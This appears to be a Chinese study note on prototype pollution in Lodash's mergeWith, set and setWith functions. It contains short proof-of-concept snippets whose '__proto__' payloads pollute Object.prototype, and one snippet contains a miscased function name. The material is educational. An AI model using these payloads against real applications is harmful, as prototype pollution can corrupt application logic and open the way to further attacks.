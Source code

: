 <a name="KnVgz"></a>
## lodash.mergeWith
lodash.mergeWith 是来自流行的 JavaScript 实用程序库 Lodash 的函数，它递归合并两个或多个对象。它类似于 lodash.merge ，但允许将定制器函数作为最后一个参数传入，该参数可用于自定义合并过程。<br />该对象是所有输入对象的深度合并。如果两个或多个输入对象具有相同的属性，则将使用该属性的最后一个对象的值。
```javascript
var lodash= require('lodash');
var payload = '{"__proto__":{"whoami":"Vulnerable"}}';

var a = {};
console.log("Before whoami: " + a.whoami);
lodash.mergeWith({}, JSON.parse(payload));
console.log("After whoami: " + a.whoami);
```
<a name="Nsxir"></a>
## lodash.set
```javascript
const _ = require('lodash');

var object = { 'a': [{ 'b': { 'c': 3 } }] };

_.set(object, 'a[0].b.c', 4);
console.log(object.a[0].b.c);
// => 4

_.set(object, 'x[0].y.z', 5);
console.log(object.x[0].y.z);
// => 5
//{ a: [ { b: [Object] } ], x: [ { y: [Object] } ] }

```
```javascript
var lodash= require('lodash');

var object_1 = { 'a': [{ 'b': { 'c': 3 } }] };
var object_2 = {}

console.log(object_1.whoami);
//lodash.setWith(object_2, 'object_2["__proto__"]["whoami"]', 'Vulnerable');
lodash.set(object_2, '__proto__.["whoami"]', 'Vulnerable');
console.log(object_1.whoami);
```
set能将object对象里面指定路径的值改变，在该例子中，首先通过键名获得数组，数组0锁定一个对象，对象调用b键名返回对象，该对象通过键名c返回3，于是set改变3为4<br />在下一个例子中，由于没有键名x及其路径，于是创建x，并赋值。<br />这里object2的原型对象直接指向了原始的object，是所有对象的最终原型，这个object的原型被污染了，导致object1的原型被污染了。
<a name="aHSM2"></a>
# lodash.setWith
同样也能接收额外一个参数，用于怎么处理，undefined的话按默认的来。<br />区别不大
```javascript
var lodash= require('lodash');

var object_1 = { 'a': [{ 'b': { 'c': 3 } }] };
var object_2 = {}

console.log(object_1.whoami);
//lodash.setWith(object_2, 'object_2["__proto__"]["whoami"]', 'Vulnerable');
lodash.setwith(object_2, '__proto__.["whoami"]', 'Vulnerable');
console.log(object_1.whoami);
```
<a name="GgCy9"></a>
# undersafe